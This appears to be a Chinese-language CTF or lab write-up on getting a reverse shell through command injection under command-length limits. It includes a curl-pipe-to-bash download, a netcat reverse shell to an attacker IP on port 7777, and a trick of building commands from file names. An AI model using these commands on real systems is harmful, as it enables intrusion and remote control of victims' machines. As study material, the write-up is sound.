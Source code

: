 `curl 172.21.205.184 | bash`

访问ip,并下载默认页面**index.html**

**| bash**:

把下载的index.html交给bash执行



**具体实施步骤:**

1.一台kali开启web服务(80端口),默认页面为index.html

   `touch index.html`    内容是:`nc 172.21.205.184 7777 -e /bin/bash`

   开启web服务 

​	`python -m http.server 80`

2.另一台kali监听7777端口

​	`nc -lvp 7777`

3.目标靶机执行命令`curl 172.21.205.184 | bash`

​	此命令访问ip并且下载默认页面index.html,把下载的index.html交给bash	执行

4.kali监听到7777端口





**期望执行的命令:**

`curl 172.21.205.184/|bash`

- 先构造ls -t>y
- 分解命令,创建文件
- sh执行脚本

默认排序无法正常排列出`ls -t>y`,ls\默认在最后面

解决方法:

- 先创建文件**ls\\**

- 再把**ls\\**写入文件`_`中

- 再用`>>`把` -t>y`追加到文件`_`中



**在执行脚本时,最后**

```
s.get(baseurl+"sh _")                                                                                          
s.get(baseurl+"sh y")
```

貌似没有正常执行,因此需要手动输入



## 长度限制为4的绕过方法
